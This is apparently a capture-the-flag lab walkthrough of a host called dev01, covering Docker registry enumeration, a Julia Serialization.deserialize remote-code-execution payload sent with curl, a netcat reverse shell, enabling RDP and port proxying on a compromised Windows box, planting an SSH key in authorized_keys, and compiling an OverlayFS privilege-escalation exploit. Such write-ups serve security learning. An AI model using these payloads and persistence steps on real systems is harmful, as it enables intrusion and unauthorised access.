

I will repost NMAP from the previous page:

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 71:9d:1d:60:78:3b:46:5d:14:b2:78:00:dc:9c:67:f8 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCtwTjpiA1FhtBsRQ2NnURP/VpwlTYAgm+LihfNqsYMZKxyJO2dkaiStUwANtykYmVZ52kHfMHkFJx7YhaZlftRX7ND6pGYyuJxCQyvEWa9Pm26UkBgX5OQxw5uFDMTlRaEI4qYEyYwd7VNCjcRpTaa06ickBlu4/SQflzewgqQ8Hh00c2OWK+upQcTIqnfNBnV3r7Wz1QaieqmD0SkPn32UFwUGhFU7HVs5PPwyt31OfQVwB8JdusoVz3lotrMkb0SRWAlIOlI2uDy1Zn6xLWRiC9vXUgCwZL9myoJbnp2pkSV9uKIXuDcWj3n16/MSnFuwuX+ic8x/NbstsWo9nxX2bSXDNCiEMZji7tkUAaimgYiihVaOLPqVDBiEZd4BOcrNRjviSR7t1MXEyOQD2P6/UvsBGLKT/RaeAO9lRHcE3dfTsKjJNunz9NY/0dNHc7VjWtWHkZn/3OpWDXliCirjHsXR/1SuViESJsGOKqc4Y3lq68Fa2Q7psucoy7tUlU=
|   256 5a:f6:a7:43:df:82:a2:00:56:ad:c7:fd:8d:e1:d7:28 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFNYfQA+R+kXjdouK/bKJ0fkb2HzTKMXnSDPe9iEdpYjvPE5hhtiq7oOjr+TBdd8VrNUusWn0HJw8BzN1Xiwe4M=
|   256 de:6b:7f:39:91:1b:21:aa:2f:13:1b:a0:1c:39:d1:72 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIAbyM/QegifMuAM1SdbDANQO2R/XghFMbsNjcwoAUQmN
3000/tcp open  http    syn-ack ttl 64 Node.js (Express middleware)
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
5000/tcp open  upnp?   syn-ack ttl 64
| fingerprint-strings: 
|   GenericLines, Help, Kerberos, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: no-cache
|     Date: Fri, 12 Jan 2024 11:40:31 GMT
|     Content-Length: 0
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Cache-Control: no-cache
|     Date: Fri, 12 Jan 2024 11:40:46 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
```

* * *

## SSH:

As usual we can't do that much without having access to a valid set of credentials, using the creds from Windows didn't helpet at all!

I will move on with enumeration.

* * *

## Port 3000:

From NMAP we know this is a NodeJS server that only aswers with a KEY:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/sippts]
└─# curl http://dev01.htb:3000/ 
Key API
```

* * *

## Port 5000:

Googlin the port this might be a Docker Regitry port, and if it is so we should be able to interrogate the service and get the Catalog repositories:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/sippts]
└─# curl -s http://dev01.htb:5000/v2/_catalog
{"repositories":["alpine","nginx"]}
```

As we can see there is a alpine linux and a Nginx server(this could be the service on port 3000). As we can see we could enumerate the service as anonymous user otherwise we couldn't get anything out of it!

We can find the tags that aren't showing much at all:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/DockerRegistryGrabber]
└─# curl -s http://dev01.htb:5000/v2/nginx/tags/list
{"name":"nginx","tags":["alpine"]}
                                                                                                                                                              
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/DockerRegistryGrabber]
└─# curl -s http://dev01.htb:5000/v2/alpine/tags/list
{"name":"alpine","tags":["latest"]}
```

We can also see the manifest of the Alpine linux image:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/DockerRegistryGrabber]
└─# curl -s http://dev01.htb:5000/v2/alpine/manifests/latest
{
   "schemaVersion": 1,
   "name": "alpine",
   "tag": "latest",
   "architecture": "amd64",
   "fsLayers": [
      {
         "blobSum": "sha256:a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4"
      },
      {
         "blobSum": "sha256:ba3557a56b150f9b813f9d02274d62914fd8fce120dd374d9ee17b87cf1d277d"
      }
   ],
   "history": [
      {
         "v1Compatibility": "{\"architecture\":\"amd64\",\"config\":{\"Hostname\":\"\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\"],\"Image\":\"sha256:e61ba58591fdf59d4950dccd6f7af139bfbf8919ac33c613585c20799ab8f93e\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":null},\"container\":\"ca4ad1a638ed081e56996a1dad0454d2e49f0309848ddfcf9d91373875606eb3\",\"container_config\":{\"Hostname\":\"ca4ad1a638ed\",\"Domainname\":\"\",\"User\":\"\",\"AttachStdin\":false,\"AttachStdout\":false,\"AttachStderr\":false,\"Tty\":false,\"OpenStdin\":false,\"StdinOnce\":false,\"Env\":[\"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\"],\"Cmd\":[\"/bin/sh\",\"-c\",\"#(nop) \",\"CMD [\\\"/bin/sh\\\"]\"],\"Image\":\"sha256:e61ba58591fdf59d4950dccd6f7af139bfbf8919ac33c613585c20799ab8f93e\",\"Volumes\":null,\"WorkingDir\":\"\",\"Entrypoint\":null,\"OnBuild\":null,\"Labels\":{}},\"created\":\"2021-02-17T21:19:54.811094842Z\",\"docker_version\":\"19.03.12\",\"id\":\"2968c33ee8345dd31a30bf062959ca820a2616c63c04078d16c852fa82f150e9\",\"os\":\"linux\",\"parent\":\"2aa7ee4964945ea0ef517c539a3261386ae779812871be9699ab76d5c7581c79\",\"throwaway\":true}"
      },
      {
         "v1Compatibility": "{\"id\":\"2aa7ee4964945ea0ef517c539a3261386ae779812871be9699ab76d5c7581c79\",\"created\":\"2021-02-17T21:19:54.634967707Z\",\"container_config\":{\"Cmd\":[\"/bin/sh -c #(nop) ADD file:80bf8bd014071345b1c0364eeb0a5e48f3fb0d87f9c31cb990e57caa652b59b8 in / \"]}}"
      }
   ],
   "signatures": [
      {
         "header": {
            "jwk": {
               "crv": "P-256",
               "kid": "KKOP:562X:2FDR:7WP2:FZX6:L34D:7OZY:SUMA:OFYK:UA7Y:2UD2:ATAB",
               "kty": "EC",
               "x": "2RF1lNKAG-u_EdIjL_wPAvJ8I_4G7ENuB3Ek6yBI5Bw",
               "y": "PMnvlmXAwXRMLn2CdtFm3LJ_a6iSc7-3IpSF-wxO4tY"
            },
            "alg": "ES256"
         },
         "signature": "nbqSbyR8sTo-JmMwoWBiBZs-o_N70hOTSMRSFW4UinFh-eW1cvRqyVMDH0EvfNLWKasQCIxMOfeQDc87WBID9g",
         "protected": "eyJmb3JtYXRMZW5ndGgiOjIwODksImZvcm1hdFRhaWwiOiJDbjAiLCJ0aW1lIjoiMjAyNC0wMS0xMlQxNjoyOTo0MFoifQ"
      }
   ]
}
```

We can use this tool to make our life easier: https://github.com/andrey-pohilko/registry-cli

And we have all the layers:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Tools/registry-cli]
└─# python3 registry.py -r "http://dev01.htb:5000/" --layers
/usr/local/lib/python3.11/dist-packages/requests/__init__.py:87: RequestsDependencyWarning: urllib3 (1.26.18) or chardet (5.1.0) doesn't match a supported version!
  warnings.warn("urllib3 ({}) or chardet ({}) doesn't match a supported "
---------------------------------
Image: alpine
  tag: latest
    layer: sha256:ba3557a56b150f9b813f9d02274d62914fd8fce120dd374d9ee17b87cf1d277d, size: 2811657
---------------------------------
Image: nginx
  tag: alpine
    layer: sha256:ba3557a56b150f9b813f9d02274d62914fd8fce120dd374d9ee17b87cf1d277d, size: 2811657
    layer: sha256:468d8ccebf7a1512bde09f06975206a7f474c714f96020dabb6e3437a3bc426b, size: 6997313
    layer: sha256:b7f67c5d6ce97f864346b65ed55571f7d191c0f9518ac59bb1b7291fbae0f716, size: 601
    layer: sha256:ed91f01a4fcb8de36c14f0048c15971b7a2d8eaf4740c9d2855de94e19467cd7, size: 894
    layer: sha256:8051568c89ac729bba391cc909f7eb97ad3e0bc6991db52ad3b5a7bb4cc6c000, size: 665
    layer: sha256:5b4dcb4d3646b218b442697b56990ca56997efa87f6861388164cc46d353659a, size: 1411
```

I tried to check the docker history of Alpine file:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# docker history dev01.htb:5000/alpine
IMAGE          CREATED       CREATED BY                                      SIZE      COMMENT
28f6e2705743   2 years ago   /bin/sh -c #(nop)  CMD ["/bin/sh"]              0B        
<missing>      2 years ago   /bin/sh -c #(nop) ADD file:80bf8bd014071345b…   5.61MB
```

The history for NGINX is failing on missing tags but nevermind cause Alpine is a real OS and I guess we can find some juicy informations there.

* * *

## Back on port 3000:

From what we found out in one of the git repository leftovers we can see that this is hosting a API backend written in Julia language!

```
+++ b/run.ji
@@ -0,0 +1,28 @@
+using Genie
+using Genie.Router, Genie.Renderer, Genie.Renderer.Html, Genie.Renderer.Json, G
enie.Requests, Base64, Serialization
+
+route("/") do
+    return "Key API"
+end
+
+route("/key", method = POST) do
+    data = postpayload(:f)
+    io = IOBuffer()
:
+    iob64_decode = Base64DecodePipe(io)
:
+    write(io, data)
:
+    seekstart(io)
:

+    new_data = String(read(iob64_decode))
:

+    con = isfile("/tmp/f.txt")
:
+    if con == true
:
+        rm("/tmp/f.txt")
:
+    else
:
+        "N"
:+    end
:+    open("/tmp/f.txt", "w") do io
:
+        write(io, new_data)
:
+    end;
:

+


:

+    Serialization.deserialize("/tmp/f.txt");
:
+end
```

As you see there is a deserialization in order and the backend can be called with /key, it expects a base64 encoded serialzied command.

Again here I had to check for tips and apparently there is a POC of a working serialization command: https://github.com/JuliaLang/julia/issues/32601

And we can see that it gives something back as response:

```
┌──(root㉿kali)-[/home/millycash/Downloads/Odyssey]
└─# curl http://dev01.htb:3000/key -d "test"
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>TypeError: Cannot read property &#39;replace&#39; of undefined<br> &nbsp; &nbsp;at app.post (/opt/beta_api/node/index.js:16:19)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/opt/beta_api/node/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/opt/beta_api/node/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/opt/beta_api/node/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/opt/beta_api/node/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /opt/beta_api/node/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/opt/beta_api/node/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/opt/beta_api/node/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at jsonParser (/opt/beta_api/node/node_modules/body-parser/lib/types/json.js:101:7)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/opt/beta_api/node/node_modules/express/lib/router/layer.js:95:5)</pre>
</body>
</html>
```

Firstly we can try to use the code to generate the payload serialized:

```
┌──(root㉿kali)-[/home/millycash/Downloads/julia]
└─# ./julia                             
               _
   _       _ _(_)_     |  Documentation: https://docs.julialang.org
  (_)     | (_) (_)    |
   _ _   _| |_  __ _   |  Type "?" for help, "]?" for Pkg help.
  | | | | | | |/ _` |  |
  | | |_| | | | (_| |  |  Version 1.10.0 (2023-12-25)
 _/ |\__'_|_|_|\__'_|  |  
|__/                   |

julia> using Serialization

julia> Serialization.deserialize(s::Serializer, t::Type{BigInt})=run(`cat /etc/passwd`);

julia> filt=filter(methods(Serialization.deserialize).ms) do m
              String(m.file)[1]=='R' end;

julia> Serialization.serialize("poc.serialized_jl", (filt[1], BigInt(7)));

julia> exit
exit (generic function with 2 methods)

julia> exit()
```

The poc will be saved here:

```
┌──(root㉿kali)-[/home/millycash/Downloads/julia]
└─# cat poc.serialized_jl 
7JL#NMainD
          deserializeREPL[2]�SN�D
                                 #deserialize
                                             k�1���
SerializationD                                     [)�*���
Serializer
          k�1���
                [)�*���,DTypeN�DBigIntN�GMPD9!
                                              #self#st�LLL�V$N�D�4	SubStringN�D!!cat��V$N�D�4,9!
                                                                                                     /etc/passwd��V$N�D�(�(�V$N�Dcmd_gen(�V$NMainDrun(�:(����NF�4
   LineInfoNodeN�DNMainD,REPL[2]���xy�NFNN		��������LLLL��NN4,	!7
```

Now we need to send the file as data in the body and it shoud get us a rce:

```
┌──(root㉿kali)-[/home/millycash/Downloads/julia]
└─# curl http://dev01.htb:3000/key --data ./poc.serialized_jl
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>TypeError: Cannot read property &#39;replace&#39; of undefined<br> &nbsp; &nbsp;at app.post (/opt/beta_api/node/index.js:16:19)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/opt/beta_api/node/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/opt/beta_api/node/node_modules/express/lib/router/route.js:137:13)<br> &nbsp; &nbsp;at Route.dispatch (/opt/beta_api/node/node_modules/express/lib/router/route.js:112:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/opt/beta_api/node/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /opt/beta_api/node/node_modules/express/lib/router/index.js:281:22<br> &nbsp; &nbsp;at Function.process_params (/opt/beta_api/node/node_modules/express/lib/router/index.js:335:12)<br> &nbsp; &nbsp;at next (/opt/beta_api/node/node_modules/express/lib/router/index.js:275:10)<br> &nbsp; &nbsp;at jsonParser (/opt/beta_api/node/node_modules/body-parser/lib/types/json.js:101:7)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/opt/beta_api/node/node_modules/express/lib/router/layer.js:95:5)</pre>
</body>
</html>
```

It isn't working  so I went back to API code and we need to B64 encode the payload, but still isn't working so I went back to the POC of the serialization and apparently the document statet  to use the version 1.1.1 where I was using the 1.40.0!



So downloading again the tool and lauching the demo poc now works!

```
┌──(root㉿kali)-[/home/millycash/Downloads/julia-1.1.1/bin]
└─# curl 192.168.21.11:3000/key -d "f=$(base64 -w0 poc.serialized_jl)"  
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
sshd:x:109:65534::/run/sshd:/usr/sbin/nologin
landscape:x:110:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
elpenor:x:1000:1000:elpenor,,,:/home/elpenor:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
```

Now we can't get a revshell without creating a reverse port forward.

```
*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh.exe interface portproxy add v4tov4 listenport=5555 listenaddress=192.168.21.10 connectport=5555 connectaddress=10.10.14.13

*Evil-WinRM* PS C:\Users\Administrator\Documents> netsh.exe interface portproxy show v4tov4

Listen on ipv4:             Connect to ipv4:

Address         Port        Address         Port
--------------- ----------  --------------- ----------
192.168.21.10   5555        10.10.14.13     5555
```

But this isn't working so I will add back my user as local admin in the ONLINE WIndows machine and enable RDP so I can use nc to catch back the revshell from Dev01!

```
//Enable RDP via PWSH
*Evil-WinRM* PS C:\temp> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -value 0
*Evil-WinRM* PS C:\temp> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
*Evil-WinRM* PS C:\temp>
```

And with this can get another flag!

```
PS C:\Temp> .\nc.exe -lvnp 6666
listening on [any] 6666 ...
connect to [192.168.21.10] from (UNKNOWN) [192.168.21.11] 42030
elpenor@dev01:/opt/beta_api/node$ ls
ls
de.sh    index.js       node_modules  package-lock.json
exec.ji  julia.service  package.json
elpenor@dev01:/opt/beta_api/node$ whoami
whoami
elpenor
elpenor@dev01:/opt/beta_api/node$
PS C:\Temp> .\nc.exe -lvp 6666
listening on [any] 6666 ...
192.168.21.11: inverse host lookup failed: h_errno 11004: NO_DATA
connect to [192.168.21.10] from (UNKNOWN) [192.168.21.11] 42146: NO_DATA
elpenor@dev01:/opt/beta_api/node$ cd ..
cd ..
elpenor@dev01:/opt/beta_api$ cd ..
cd ..
elpenor@dev01:/opt$ cd ..
cd ..
elpenor@dev01:/$ ls
ls
bin   dev  home  lib32  libx32      media  opt   root  sbin  srv  tmp  var
boot  etc  lib   lib64  lost+found  mnt    proc  run   snap  sys  usr
elpenor@dev01:/$ cd home
cd home
elpenor@dev01:/home$ ls
ls
elpenor
elpenor@dev01:/home$ cd elpenor
cd elpenor
elpenor@dev01:~$ ls
ls
flag.txt  rancher-v2.4.11-rc4
elpenor@dev01:~$ cat flag.txt
cat flag.txt
ODYSSEY{JUL14_d353R14L124710n}
elpenor@dev01:~$
```

* * *

## Road to Root.txt

Now for some reason my NC is dying every few minutes so we need to find a way to escalate this to a more stable session, so I will try to inject my ssh public key under */home/elpenor/.ssh/authorized\_keys* so I can get a shell!

```
authorized_keys
elpenor@dev01:~/.ssh$
PS C:\Temp> .\nc.exe -lvp 6666
listening on [any] 6666 ...
192.168.21.11: inverse host lookup failed: h_errno 11004: NO_DATA
connect to [192.168.21.10] from (UNKNOWN) [192.168.21.11] 43542: NO_DATA
elpenor@dev01:/opt/beta_api/node$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCKIskBa47uCFgUZlEJ3dS59goI/alLTPwbZwZoDvnM72CeNMO07vAuj7xjagevj0HtjoxVwHF1TCBL1XQqbcKBCMdAY9ufL+DewnfPOuOA9LtLsVVRa9YpA2rtK1h/CrpWguzujRPRDZ9Oh2Wjzhk67PZRgGlX1XQozxKd/5hBGoJnAvBOHXwwUOTDhnDQnfisFKeHZ6uvFUWPQFZReHBXm72FMQwErcsQX1yUj4gaq/0AC70DWEAyHsohSJ4tqpTVvk02mtZII/NHDfxPnfNgvWIrSaargjddfJtXRHslHxLRDvtczU3+XxAX2NU4jlK9YGCF0K1OXPmCAerFnKikdh0njYFwDmnc8qCaooU9gel9Ml8UFvegUmO71C/mZX+HO2K+sota/oTT/0bismFOFcS5smD0/NW78PutCVF1quahclMGvwWlucYwt5NgRB4/2RQvkSnMOrb7qa+fDTLDpSVGwfMTyPmh/WMfvLTSk8rNYmnD+r1I7Xs5vowGZMWC+z8fqwZU59AvBQHU4B8GH4D3oHGfymdQfgXLOJaRcApk6qoqCMu9K8Y8u/0t8hM1IMe8vTYHSed7eKpIO1I5x3z9CV9KB9JPN12MAzSWvpZrtJu2fg/gM8iEohy+U54OryMadsJEPoWZHKotS225zBFyUzSvMmLkEhjOSQhRKw== millycash@kali" >> /home/elpenor/.ssh/authorized_keys
<llycash@kali" >> /home/elpenor/.ssh/authorized_keys
elpenor@dev01:/opt/beta_api/node$

elpenor@dev01:/opt/beta_api/node$ cat /home/elpenor/.ssh/authorized_keys
cat /home/elpenor/.ssh/authorized_keys
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCKIskBa47uCFgUZlEJ3dS59goI/alLTPwbZwZoDvnM72CeNMO07vAuj7xjagevj0HtjoxVwHF1TCBL1XQqbcKBCMdAY9ufL+DewnfPOuOA9LtLsVVRa9YpA2rtK1h/CrpWguzujRPRDZ9Oh2Wjzhk67PZRgGlX1XQozxKd/5hBGoJnAvBOHXwwUOTDhnDQnfisFKeHZ6uvFUWPQFZReHBXm72FMQwErcsQX1yUj4gaq/0AC70DWEAyHsohSJ4tqpTVvk02mtZII/NHDfxPnfNgvWIrSaargjddfJtXRHslHxLRDvtczU3+XxAX2NU4jlK9YGCF0K1OXPmCAerFnKikdh0njYFwDmnc8qCaooU9gel9Ml8UFvegUmO71C/mZX+HO2K+sota/oTT/0bismFOFcS5smD0/NW78PutCVF1quahclMGvwWlucYwt5NgRB4/2RQvkSnMOrb7qa+fDTLDpSVGwfMTyPmh/WMfvLTSk8rNYmnD+r1I7Xs5vowGZMWC+z8fqwZU59AvBQHU4B8GH4D3oHGfymdQfgXLOJaRcApk6qoqCMu9K8Y8u/0t8hM1IMe8vTYHSed7eKpIO1I5x3z9CV9KB9JPN12MAzSWvpZrtJu2fg/gM8iEohy+U54OryMadsJEPoWZHKotS225zBFyUzSvMmLkEhjOSQhRKw== millycash@kali
elpenor@dev01:/opt/beta_api/node$
```

This mean we should be able now to login via ssh from our machine!

```
┌──(millycash㉿kali)-[~/Downloads/Odyssey]
└─$ ssh elpenor@192.168.21.11
The authenticity of host '192.168.21.11 (192.168.21.11)' can't be established.
ED25519 key fingerprint is SHA256:e4nnKhBexLfJCIJdDUdWlFlOz1L3XlRLHUCrH62hSTM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.21.11' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-67-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 19 Jan 2024 02:15:00 PM GMT

  System load:  0.17               Processes:                224
  Usage of /:   75.9% of 13.72GB   Users logged in:          0
  Memory usage: 33%                IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                 IPv4 address for ens192:  192.168.21.11


97 updates can be installed immediately.
54 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Thu Mar 25 06:52:50 2021 from 10.10.14.8
elpenor@dev01:~$
```

Nice now we can use scp to copy over linpeas.sh and enumerate  how we can move forward:

```
┌──(millycash㉿kali)-[~/Downloads/Odyssey]
└─$ scp linpeas.sh elpenor@192.168.21.11:/tmp
linpeas.sh                                                                                                                  100%  828KB   1.1MB/s   00:00
```

And running the script:

```
═══════════════════════════════╣ Basic information ╠═══════════════════════════════
                               ╚═══════════════════╝
OS: Linux version 5.4.0-67-generic (buildd@lcy01-amd64-025) (gcc version 9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #75-Ubuntu SMP Fri Feb 19 18:03:38 UTC 2021
User & Groups: uid=1000(elpenor) gid=1000(elpenor) groups=1000(elpenor)
Hostname: dev01
Writable folder: /dev/shm
[+] /usr/bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /usr/bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)
[+] /usr/bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)


                              ╔════════════════════╗
══════════════════════════════╣ System Information ╠══════════════════════════════
                              ╚════════════════════╝
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits
Linux version 5.4.0-67-generic (buildd@lcy01-amd64-025) (gcc version 9.3.0 (Ubuntu 9.3.0-17ubuntu1~20.04)) #75-Ubuntu SMP Fri Feb 19 18:03:38 UTC 2021
Distributor ID:	Ubuntu
Description:	Ubuntu 20.04.2 LTS
Release:	20.04
Codename:	focal

╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.31


╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for elpenor on dev01:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User elpenor may run the following commands on dev01:
    (root) NOPASSWD: /usr/bin/docker images
```

as you see here we have some sudo permission on docker image but most likely is not gonna do something, again sudo 1.8.31.

So images can only show available images:

```
elpenor@dev01:/tmp$ sudo -u root /usr/bin/docker images
REPOSITORY              TAG                 IMAGE ID            CREATED             SIZE
rancher/rancher         latest              3ea53a0e3b90        2 years ago         1.01GB
nginx                   alpine              5fd75c905b52        2 years ago         22.6MB
localhost:5000/nginx    alpine              5fd75c905b52        2 years ago         22.6MB
registry                2                   5c4008a25e05        2 years ago         26.2MB
alpine                  latest              28f6e2705743        2 years ago         5.61MB
localhost:5000/alpine   latest              28f6e2705743        2 years ago         5.61MB
```

Next that sudo 1.8.31 seems well patched:

```
elpenor@dev01:/tmp$ python3 exploit_nss.py 
Traceback (most recent call last):
  File "exploit_nss.py", line 220, in <module>
    assert check_is_vuln(), "target is patched"
AssertionError: target is patched
elpenor@dev01:/tmp$
```

Now here I had to check for tips and apparently this particular version in vulnerable to OverlayFS as PE vector: https://github.com/briskets/CVE-2021-3493

And like that we got another flag:

```
elpenor@dev01:/tmp$ gcc exploit.c -o exploit
elpenor@dev01:/tmp$ ls -al
total 916
drwxrwxrwt 12 root    root      4096 Jan 19 14:37 .
drwxr-xr-x 19 root    root      4096 Jul 25  2021 ..
-rwxrwxr-x  1 elpenor elpenor  17848 Jan 19 14:37 exploit
-rw-r--r--  1 elpenor elpenor   3560 Jan 19 14:37 exploit.c
-rwxr-xr-x  1 elpenor elpenor   8179 Jan 19 14:27 exploit_nss.py
drwxrwxrwt  2 root    root      4096 Jan 19 03:15 .font-unix
-rw-r--r--  1 elpenor elpenor    616 Jan 19 14:13 f.txt
drwxrwxrwt  2 root    root      4096 Jan 19 03:15 .ICE-unix
-rwxr-xr-x  1 elpenor elpenor 847920 Jan 19 14:17 linpeas.sh
drwx------  3 root    root      4096 Jan 19 03:15 systemd-private-df3ff13ab35a4558b7c0ea22722dde81-systemd-logind.service-QkqB8e
drwx------  3 root    root      4096 Jan 19 03:15 systemd-private-df3ff13ab35a4558b7c0ea22722dde81-systemd-resolved.service-KgGBZe
drwx------  3 root    root      4096 Jan 19 03:15 systemd-private-df3ff13ab35a4558b7c0ea22722dde81-systemd-timesyncd.service-OgMfEf
drwxrwxrwt  2 root    root      4096 Jan 19 03:15 .Test-unix
drwx------  2 elpenor elpenor   4096 Jan 19 14:22 tmux-1000
drwx------  2 root    root      4096 Jan 19 03:15 vmware-root_638-2722304702
drwxrwxrwt  2 root    root      4096 Jan 19 03:15 .X11-unix
